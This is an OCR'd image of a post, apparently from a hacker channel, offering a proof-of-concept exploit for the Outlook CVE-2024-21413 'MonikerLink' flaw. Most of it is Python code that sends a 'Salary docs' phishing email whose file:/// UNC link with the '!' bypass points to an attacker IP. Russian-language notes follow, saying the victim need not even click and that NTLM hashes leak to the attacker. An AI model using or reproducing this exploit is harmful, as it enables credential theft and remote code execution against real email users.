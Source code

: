 <blockquote>
2024-21413 /outlook RCE
*
POC

import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

def send_email():
    &#35; Get user input for sender's email address and password
    sender_email &#61; input(&quot;Enter your Outlook email address: &quot;)
    sender_password &#61; input(&quot;Enter your Outlook email password: &quot;)

    &#35; Get user input for receiver's email address
    receiver_email &#61; input(&quot;Enter the recipient's email address: &quot;)

    &#35; Create a new message object
    msg &#61; MIMEMultipart()

    &#35; Add sender, receiver, and subject to the message
    msg['From'] &#61; sender_email
    msg['To'] &#61; receiver_email
    msg['Subject'] &#61; input(&quot;Enter email subject: &quot;)

    &#35; Ask user if they want to add a link attachment
    add_attachment &#61; input(&quot;Do you want to add a link attachment? (yes/no): &quot;).lower()
    if add_attachment &#61;&#61; 'yes':
        html_content &#61; &quot;&quot;&quot;\
        &lt;!DOCTYPE html&gt;
        &lt;html lang&#61;&quot;en&quot;&gt;
            &lt;body&gt;
                &lt;p&gt;&lt;a href&#61;&quot;file:///\\192.168.206.139/test/Doc.txt!xssvideo&quot;&gt;Salary docs&lt;/a&gt;&lt;/p&gt;
            &lt;/body&gt;
        &lt;/html&gt;&quot;&quot;&quot;
        msg.attach(MIMEText(html_content, 'html'))

    &#35; Connect to SMTP server and send email
    with smtplib.SMTP('smtp-mail.outlook.com', 587) as server:
        server.starttls()
        server.login(sender_email, sender_password)
        server.send_message(msg)
        print(&quot;Email sent successfully.&quot;)

if __name__ &#61;&#61; &quot;__main__&quot;:
    send_email()

Но есть пара НО:
1. В строке 27 вам необходимо указать путь к файлу на вашем сервере (линк на rtf например)
2. На линк жертве кликать не нужно, Office Protected View все сам сделает.
3. Было мнение что нужно находиться в LAN жертвы, но как бы есть пара минут пока port established

&#35;outглюк &#35;ntlm2
</blockquote>

